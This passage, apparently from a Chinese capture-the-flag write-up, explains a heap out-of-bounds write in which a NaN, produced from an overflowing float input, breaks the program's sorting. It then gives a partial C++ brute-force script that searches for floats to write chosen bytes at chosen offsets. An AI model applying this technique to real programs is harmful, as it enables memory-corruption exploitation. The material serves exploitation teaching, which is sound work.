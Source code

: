 #### 漏洞点

很明显的漏洞在于设置`Sessionid`函数，如果排序函数没有达到预期的效果（即max并非最大值或者min并非最小值），就能实现越界写堆列表。由于`nan`有一个特性，任意判断只要包含`nan`都会返回失败，因此如果我们可以构造一个`nan`在数组中就能实现排序异常，但是由于输入的check不能直接输入`nan`，我们选择通过排序时的那一次除法来实现，正常来说能处理出`nan`的运算有`0/0`或者`inf/inf`，而`inf`只需要输入一个较大的数即可实现，这里选择使用`10e2222222222222222`绕过对于输入长度的限制设计输入一个超级大数实现对于`inf`的写入。接着使用简单的爆破脚本就能实现伪造随机数在指定偏移（`offset`）写入指定字节（`code`）：

```c
// g++ -std=c++17 -O2 -pthread -o brute brute.cpp
#include <iostream>
#include <thread>
#include <vector>
#include <atomic>
#include <cmath>
#include <cstring>
#include <iomanip>
#include <limits>
#include <cstdint>

struct Task {
    uint32_t start;
    uint32_t end;
    int offset;
    uint8_t code;
    std::atomic<bool>* found;
    float* result;

    void operator()() const {
        for (uint32_t u = start; u < end && !found->load(); ++u) {
            if ((u & 0xFF) != code)
                continue;
            float num;
            std::memcpy(&num, &u, 4);
            if (!std::isfinite(num))
                continue;

            float product = num * 0x1f;
            if ((int)product == offset) {
                *result = num;
                found->store(true);
                break;
            }
        }
    }
};

int main(int argc, char* argv[]) {
    if (argc < 3) {
        std::cerr << "Usage: " << argv[0] << " <offset> <code>" << std::endl;
        return 1;
    }

    int offset = std::stoi(argv[1]);
    int code = std::stoi(argv[2]);

    if (code < 0 || code > 255) {
        std::cerr << "Code must be between 0 and 255." << std::endl;
        return 1;
    }

    int thread_count = std::thread::hardware_concurrency();
    if (thread_count == 0)
        thread_count = 4;

```